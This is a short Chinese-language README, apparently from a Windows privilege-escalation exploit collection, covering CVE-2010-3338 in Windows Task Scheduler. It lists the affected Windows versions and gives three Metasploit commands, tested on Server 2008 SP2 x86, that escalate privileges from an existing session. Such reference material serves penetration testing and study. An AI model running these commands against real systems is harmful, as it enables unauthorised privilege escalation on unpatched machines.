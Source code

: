### CVE-2010-3338

#### 描述

Windows Task Scheduler无法正确确定计划任务的安全上下文，这使本地用户可以通过精心设计的应用程序获取特权

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 7           |                  |         |        |                    |
| Windows Server 2008 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  |         |        |                    |
| Windows Server 2008 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### 利用方式

测试系统 Windows Server 2008 SP2 x86，利用msf执行如下命令即可，x64版本msf不支持

```
use exploit/windows/local/ms10_092_schelevator
set SESSION 2
run
```

![image-20200822234422637](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2010-3338_win2008_x86_msf.png)

然后就能提权成功了

![image-20200822234608009](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2010-3338_win2008_x86_msf2.png)


